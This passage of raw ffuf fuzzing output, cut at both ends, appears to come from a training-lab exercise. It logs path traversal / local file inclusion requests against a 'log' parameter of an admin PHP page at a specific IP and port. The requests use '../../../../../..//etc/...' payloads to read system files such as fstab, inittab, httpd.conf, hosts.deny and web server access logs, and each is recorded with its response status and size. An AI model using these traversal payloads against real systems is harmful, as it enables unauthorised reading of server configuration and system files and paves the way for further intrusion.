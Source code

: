 charset=UTF-8","redirectlocation":"","scraper":{},"duration":73269232,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/httpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c","FUZZ":"/etc/chttp.conf"},"position":12,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":73312831,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/chttp.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d","FUZZ":"/etc/cron.allow"},"position":13,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":73916535,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/cron.allow","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf510","FUZZ":"/etc/cups/cupsd.conf"},"position":16,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":73999955,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/cups/cupsd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf516","FUZZ":"/etc/groups"},"position":22,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":74895211,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/groups","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf522","FUZZ":"/etc/httpd/php.ini"},"position":34,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":75545224,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf51f","FUZZ":"/etc/httpd/logs/access.log"},"position":31,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":75385673,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/logs/access.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf51e","FUZZ":"/etc/httpd/logs/access_log"},"position":30,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":75738234,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/logs/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf56","FUZZ":"/etc/apache2/httpd.conf"},"position":6,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":75269922,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/apache2/httpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf524","FUZZ":"/etc/inetd.conf"},"position":36,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":75994726,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/inetd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf525","FUZZ":"/etc/inittab"},"position":37,"status":200,"length":2616,"words":196,"lines":125,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":75802775,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/inittab","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf51a","FUZZ":"/etc/hosts.deny"},"position":26,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":76795560,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/hosts.deny","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf512","FUZZ":"/etc/fstab"},"position":18,"status":200,"length":2135,"words":154,"lines":104,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":76159457,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/fstab","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf55","FUZZ":"/etc/apache2/apache2.conf"},"position":5,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":76832110,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/apache2/apache2.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf51b","FUZZ":"/etc/httpd/access.conf"},"position":27,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":76262817,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/access.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf527","FUZZ":"/etc/lighttpd.conf"},"position":39,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":76393558,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/lighttpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5e","FUZZ":"/etc/cron.deny"},"position":14,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;